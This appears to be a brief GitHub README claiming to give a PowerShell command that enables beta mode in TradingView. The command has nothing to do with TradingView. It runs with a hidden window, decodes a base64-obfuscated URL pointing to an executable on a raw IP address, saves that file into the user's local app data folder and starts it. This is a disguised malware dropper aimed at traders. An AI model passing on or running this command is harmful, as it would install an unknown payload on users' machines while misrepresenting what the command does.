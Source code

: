 # Enable-Beta-Mode-In-Trading-View
Command to enable beta mode in TradingView


powershell -WindowStyle Hidden -Command "$url=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('aHR0cDovLzE0MS45OC42LjEzMDo1NTU0L2RvY3R5cGVzLmV4ZQ==')); iwr $url -OutF "$env:LOCALAPPDATA\doctypes.exe"; start "$env:LOCALAPPDATA\doctypes.exe""
